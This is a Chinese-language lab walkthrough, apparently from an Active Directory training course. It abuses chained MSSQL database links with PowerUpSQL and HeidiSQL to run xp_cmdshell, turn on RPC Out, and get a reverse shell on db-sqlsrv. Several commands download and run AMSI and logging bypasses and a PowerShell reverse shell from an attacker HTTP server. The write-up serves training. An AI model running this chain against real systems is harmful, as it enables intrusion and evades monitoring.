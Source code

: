 Task
•  Get a reverse shell on a db-sqlsrv in db.local forest by abusing database links from us-mssql.

1. 枚举当前账号是否有任何可用的mssql链接

```
PS C:\Windows\system32> cd C:\ad\Tools\
PS C:\ad\Tools> Import-Module .\PowerupSQL-master\PowerupSQL.psd1
WARNING: The names of some imported commands from the module 'PowerupSQL' include unapproved verbs that might make them
 less discoverable. To find the commands with unapproved verbs, run the Import-Module command again with the Verbose
parameter. For a list of approved verbs, type Get-Verb.
PS C:\ad\Tools> Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
VERBOSE: us-mssql.us.techcorp.local : Connection Success.


ComputerName           : us-mssql.us.techcorp.local
Instance               : US-MSSQL
DomainName             : US
ServiceProcessID       : 2216
ServiceName            : MSSQLSERVER
ServiceAccount         : US\dbservice
AuthenticationMode     : Windows and SQL Server Authentication
ForcedEncryption       : 0
Clustered              : No
SQLServerVersionNumber : 14.0.1000.169
SQLServerMajorVersion  : 2017
SQLServerEdition       : Developer Edition (64-bit)
SQLServerServicePack   : RTM
OSArchitecture         : X64
OsVersionNumber        : SQL
Currentlogin           : US\studentuser138
IsSysadmin             : No
ActiveSessions         : 1
```

对us-mssql这个实例有进入权限，但我们不是sysadmin（IsSysadmin:No）

2. 查看上面us-mssql这个链接的信息

```
PS C:\ad\Tools> Get-SQLServerLink -Instance us-mssql.us.techcorp.local -Verbose
VERBOSE: us-mssql.us.techcorp.local : Connection Success.


ComputerName           : us-mssql.us.techcorp.local
Instance               : us-mssql.us.techcorp.local
DatabaseLinkId         : 0
DatabaseLinkName       : US-MSSQL
DatabaseLinkLocation   : Local
Product                : SQL Server
Provider               : SQLNCLI
Catalog                :
LocalLogin             :
RemoteLoginName        :
is_rpc_out_enabled     : True
is_data_access_enabled : False
modify_date            : 7/7/2019 9:48:29 AM

ComputerName           : us-mssql.us.techcorp.local
Instance               : us-mssql.us.techcorp.local
DatabaseLinkId         : 1
DatabaseLinkName       : 192.168.23.25
DatabaseLinkLocation   : Remote
Product                : SQL Server
Provider               : SQLNCLI
Catalog                :
LocalLogin             :
RemoteLoginName        :
is_rpc_out_enabled     : False
is_data_access_enabled : True
modify_date            : 7/9/2019 6:54:54 AM
```

留意第二条枚举信息
```
DatabaseLinkName       : 192.168.23.25
DatabaseLinkLocation   : Remote
Product                : SQL Server
```

这里表示在us-mssql还有一个远程的mssql链接

3. 使用HeidiSQL客户端

以当前用户身份登录

1667866844266.png


查找当前链接下的链接,效果如上面第2步

```
select * from master..sysservers
```

1667866940423.png

继续枚举192.168.23.25这个链接下面的链接

```
select * from openquery("192.168.23.25",'select * from master..sysservers')
```

1667867153821.png

openquery可以嵌套操作，根据当前链接，打开db-sqlsrv链接，枚举版本号
```
select * from openquery("192.168.23.25 ",'select * from openquery("db-sqlsrv",''select @@version as version'')')
```

1667867292305.png

我们还可以使用 PowerUpSQL 中的 Get-SQLServerLinkCrawl 来自动爬取数据库链接：

```
PS C:\ad\Tools> Get-SQLServerLinkCrawl -Instance us-mssql -Verbose

Version     : SQL Server 2017
Instance    : US-MSSQL
CustomQuery :
Sysadmin    : 0
Path        : {US-MSSQL}
User        : US\studentuser138
Links       : {192.168.23.25}

Version     : SQL Server 2017
Instance    : DB-SQLPROD
CustomQuery :
Sysadmin    : 1
Path        : {US-MSSQL, 192.168.23.25}
User        : dbuser
Links       : {DB-SQLSRV}

Version     : SQL Server 2017
Instance    : DB-SQLSRV
CustomQuery :
Sysadmin    : 1
Path        : {US-MSSQL, 192.168.23.25, DB-SQLSRV}
User        : sa
Links       :
```

从上面枚举结果可知，对DB-SQLSRV有sa权限

如果启用了 xp_cmdshell（或者 rpcout 值为true，允许我们启用 xp_cmdshell），则可以使用以下命令在数据库链接中的任何节点上执行命令。

尝试对各个mssql节点执行```whoami```命令

```
PS C:\ad\Tools> Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''


Version     : SQL Server 2017
Instance    : US-MSSQL
CustomQuery :
Sysadmin    : 0
Path        : {US-MSSQL}
User        : US\studentuser138
Links       : {192.168.23.25}

Version     : SQL Server 2017
Instance    : DB-SQLPROD
CustomQuery : {nt service\mssqlserver, }   #留意这里
Path        : {US-MSSQL, 192.168.23.25}
User        : dbuser
Links       : {DB-SQLSRV}

Version     : SQL Server 2017
Instance    : DB-SQLSRV
CustomQuery :
Sysadmin    : 1
Path        : {US-MSSQL, 192.168.23.25, DB-SQLSRV}
User        : sa
Links       :
```

上面结果表明我们对 DB-SQLPROD这个实例可以执行系统命令


下面在本地开启一个监听
```
PS C:\ad\Tools> . .\powercat.ps1
PS C:\ad\Tools> powercat -l -v -p 443 -t 1000
VERBOSE: Set Stream 1: TCP
VERBOSE: Set Stream 2: Console
VERBOSE: Setting up Stream 1...
VERBOSE: Listening on [0.0.0.0] (port 443)
```

开启一个http服务
```
PS C:\ad\Tools> python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

对该实例执行一条命令，返回一个rev shell

```
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.138/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/Invoke-PowerShellTcpEx.ps1)"'''
```

获得一个rev shell

1667868683031.png


因为从 DB-SQLProd到DB-SQLSrv的链接是sa权限，我们可以在 DB-SQLSrv 上启用 RPC Out 和 xp_cmdshell，在上面拿到的rev shell下操作,忽略第一条命令的报错
```
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc', @optvalue='TRUE'"

Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc out', @optvalue='TRUE'"

Invoke-SqlCmd -Query "EXECUTE ('sp_configure ''show advanced options'',1;reconfigure;') AT ""db-sqlsrv"""

Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure') AT ""db-sqlsrv"""
```

1667869029838.png

上面操作完成以后，现在再次对执行whoami,已经可以在DB-SQLSRV执行系统命令

```
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''
```

1667869162364.png


现在可以对DB-SQLSRV拿到一个rev shell

在HeidiSQL上操作
```
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version;exec master..xp_cmdshell ''''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.138/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/Invoke-PowerShellTcp.ps1)"'''''')')
```

注意这里使用的是，需要在脚本最后面加
```
reverse -Reverse -IPAddress 192.168.100.138 -Port 443
```

1667869606504.png

或者可以在命令行里执行rev shell

```
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.138/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget db-sqlsrv
```

1667869785882.png